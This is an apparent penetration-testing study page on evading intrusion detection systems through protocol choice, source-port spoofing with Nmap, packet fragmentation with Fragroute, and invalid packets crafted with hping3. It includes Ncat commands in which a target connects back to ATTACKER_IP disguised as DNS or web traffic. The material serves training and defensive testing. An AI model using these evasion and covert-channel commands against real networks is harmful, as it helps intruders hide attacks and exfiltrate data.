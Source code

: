 # Evasion via protocol manipulation

 Evasion via protocol manipulation includes:

* Relying on a different protocol
* Manipulating (Source) TCP/UDP port
* Using session splicing (IP packet fragmentation)
* Sending invalid packets

## Rely on a different protocol

The IDS/IPS system might be configured to block certain protocols and allow others. For example, using UDP instead of 
TCP or relying on HTTP instead of DNS to deliver an attack or exfiltrate data. It depends on the target and the 
applications necessary for the target organization to design the attack. For example, if web browsing is allowed, it 
usually means that protected hosts can connect to ports 80 and 443 unless a local proxy is used. A client relying on 
Google services for their business, can be attacked using Google web hosting to conceal a malicious site. 

Not a one-size-fits-all, and some trial and error might be necessary (do not create too much noise).

In case of an IPS set to block DNS queries and HTTP requests, enforcing a policy where local machines cannot query 
external DNS servers but instead query the local DNS server; moreover, and enforcing secure HTTP communications while
being relatively permissive when it comes to HTTPS, using HTTPS to tunnel traffic looks like a promising approach to 
evade the IPS.

### Ncat

Ncat by default, uses a TCP connection, and can be set to use UDP using the option `-u`

To listen using UDP (where port number is the listen port):
 
    ncat -ulvnp PORT_NUM 

To connect to an Ncat instance listening on a UDP port: 

    nc -u TARGET_IP PORT_NUM

* Running `ncat -lvnp 25` on the attacker system and connecting to it will give the impression that it is a usual 
TCP connection with an SMTP server, **unless the IDS/IPS provides deep packet inspection (DPI)**.
* Executing `ncat -ulvnp 162` on the attacker machine and connecting to it will give the illusion that it is a regular 
UDP communication with an SNMP server **unless the IDS/IPS supports DPI**.

## Manipulate (Source) TCP/UDP port

The TCP and UDP source and destination ports are inspected even by the most basic security solutions. 
**Without deep packet inspection**, the port numbers are the primary indicator of the service used: 
network traffic involving TCP port 22 would be interpreted as SSH traffic unless the security solution can analyse 
the data carried by the TCP segments.

### Nmap

Add the option `-g PORT_NUMBER` (or `--source-port PORT_NUMBER`) to make Nmap send all its traffic from a specific 
source port number.

For example, use `nmap -sS -Pn -g 80 -F MACHINE_IP` to make the port scanning traffic appear to be exchanged with an 
HTTP server at first glance. When scanning UDP ports, use `nmap -sU -Pn -g 53 -F MACHINE_IP` to make the traffic 
appear to be exchanged with a DNS server.

### Ncat

Trying to camouflage the traffic as if it is DNS traffic:

* On the attacker machine, to use Ncat to listen on UDP port 53 (as a DNS server would), use `ncat -ulvnp 53`.
* On the target, connect back to the listening server using `ncat -u ATTACKER_IP 53`.

To make it appear more like web traffic where clients communicate with an HTTP server:

* On the attacker machine, to get Ncat to listen on TCP port 80, like a benign web server, you can use `ncat -lvnp 80`.
* On the target, connect to the listening server using `nc ATTACKER_IP 80`.

## Use session splicing (IP packet fragmentation)

Another approach possible in IPv4 is IP packet fragmentation (session splicing). The assumption is that if you break 
the packet(s) related to an attack into smaller packets, you will avoid matching the IDS signatures. If the IDS is 
looking for a particular stream of bytes to detect the malicious payload, divide the payload among multiple packets. 
Unless the IDS reassembles the packets, the rule won’t be triggered.

### Nmap

Nmap offers a few options to fragment packets. Add:

* `-f` to set the data in the IP packet to 8 bytes.
* `-ff` to limit the data in the IP packet to 16 bytes at most.
* `--mtu SIZE` to provide a custom size for data carried within the IP packet. The size should be a multiple of 8.

Suppose you want to force all your packets to be fragmented into specific sizes. In that case, consider using a 
program such as [Fragroute](https://www.monkey.org/~dugsong/fragroute/). It can be set to read a set of rules from a 
given configuration file and applies them to incoming packets. For simple IP packet fragmentation, it would be 
enough to use a configuration file with `ip_frag SIZE` to fragment the IP data according to the provided size. 
**The size must be a multiple of 8**.

For example, you can create a configuration file `fragroute.conf` with one line, `ip_frag 16`, to fragment packets 
where IP data fragments do not exceed 16 bytes. Then run the command `fragroute -f fragroute.conf HOST`. 
The `HOST` is the destination to which to send the fragmented packets to.

## Sending invalid packets

The response of systems to valid packets **tends** to be predictable. It can be unclear how systems will respond to 
invalid packets. For example, an IDS/IPS might process an invalid packet, while the target system might ignore it. 
The exact behaviour requires some experimentation or inside knowledge.

Nmap makes it possible to create invalid packets in a many ways. Two common options are to scan the target using 
packets that have:

* Invalid TCP/UDP checksum
* Invalid TCP flags

Nmap allows for sending packets with a wrong TCP/UDP checksum using the option `--badsum`. An incorrect checksum 
indicates that the original packet has been altered somewhere across its path from the sending program.

Nmap also allows for sending packets with custom TCP flags, including invalid ones. The option `--scanflags` allows
for setting flags:

* `URG` for Urgent
* `ACK` for Acknowledge
* `PSH` for Push
* `RST` for Reset
* `SYN` for Synchronize
* `FIN` for Finish

To craft packets with custom fields (valid or invalid), consider a tool such as [hping3](http://www.hping.org/). A 
few example options:

* `-t` or `--ttl` to set the Time to Live in the IP header.
* `-b` or `--badsum` to send packets with a bad UDP/TCP checksum.
* `-S`, `-A`, `-P`, `-U`, `-F`, `-R` to set the TCP `SYN`, `ACK`, `PUSH`, `URG`, `FIN`, and `RST` flags, respectively.

## Resources

* [EV: IDS Evasion via TCP/IP Packet Manipulation](https://github.com/TomAPU/ev)

